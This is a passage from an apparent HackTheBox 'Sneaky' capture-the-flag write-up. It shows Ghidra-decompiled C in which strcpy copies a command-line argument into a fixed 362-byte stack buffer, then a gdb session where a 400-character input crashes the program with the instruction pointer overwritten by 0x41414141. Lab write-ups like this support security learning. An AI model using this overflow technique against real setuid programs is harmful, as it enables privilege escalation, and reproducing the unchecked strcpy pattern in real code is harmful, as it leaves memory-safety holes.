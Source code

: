 ![Ghidra main decompiled](/assets/images/HTB-Sneaky/1.b%20Ghidra%20main%20decompiled.png)

```c
undefined4 main(undefined4 param_1,int param_2)
{
  char local_16e [362];
  
  strcpy(local_16e,*(char **)(param_2 + 4));
  return 0;
}
```

We used [Ghidra](https://ghidra-sre.org/) to decompile `/usr/local/bin/chal` because we didn't know what the application does when it's run. We can see that `strcpy` is used with `param_2` as a variable which we can control and which will probably result in a buffer overflow.

### Creating the buffer overflow

We're working with a 32-bit executable and our own Kali machine is 64 bit. Luckily we can use `gdb` on the machine.

```bash
thrasivoulos@Sneaky:/tmp$ gdb /usr/local/bin/chal
...
(gdb) run $(python -c 'print "A"*400')
Starting program: /usr/local/bin/chal $(python -c 'print "A"*400')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

